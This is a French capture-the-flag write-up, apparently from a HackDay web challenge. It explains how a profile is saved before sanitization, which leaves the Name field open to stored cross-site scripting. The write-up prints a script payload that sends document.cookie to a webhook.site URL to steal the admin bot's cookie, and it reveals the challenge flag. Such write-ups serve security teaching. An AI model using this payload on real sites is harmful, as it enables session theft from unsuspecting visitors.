





# Internal blog

**Web**

You’ve received an anonymous tip from the Airship Mail Delivery Company claiming that a seemingly legitimate website is actually a front for trading stolen submarine mechanical parts. Yeah, that’s oddly specific...

The localhost port is 3000. Take a closer look and see if you can uncover anything suspicious. The flag to find is the bot's cookie.

---

## Préambule

En arrivant sur le site, bien que nous n'ayons pas de source; on peut avoir une partie du code source grâce à un leak.



On peut voir dans cette source, tout en haut, que le profil est sauvegardé avant le check de sanitize.
Si le sanitize fail, le profil est donc quand même sauvegardé.

## Tests

On va donc se créer un profil en essayant de partout de faire des injections, voir ce qui passe.



Après la création de ce profil, qui va "échouer", on peut quand même aller à l'URL du profil pour le consulter, puisqu'il a été sauvegardé.

On voit sur cette URL que le champ Name n'est pas sanitized, on va donc pouvoir mettre une balise script à l'intérieur afin de récupérer les cookies des utilisateurs qui consultent ce profil.



On utilise https://webhook.site/ pour se créer un point de webhook pour pouvoir récupérer les cookies.

On créé le script suivant :
```html
<script>document.location = "https://webhook.site/2779f411-a895-496e-9525-803b72e50737/" + document.cookie</script>
```
...qu'on rentre dans le champ name

Il faut ensuite que l'admin vienne voir notre page. Pour cela, comme indiqué sur la page d'accueil, il nous suffit de créer un article.



Après avoir créé l'article, on voit dans notre webhook qu'on a reçu une requête



**Flag : HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}**

nhy.
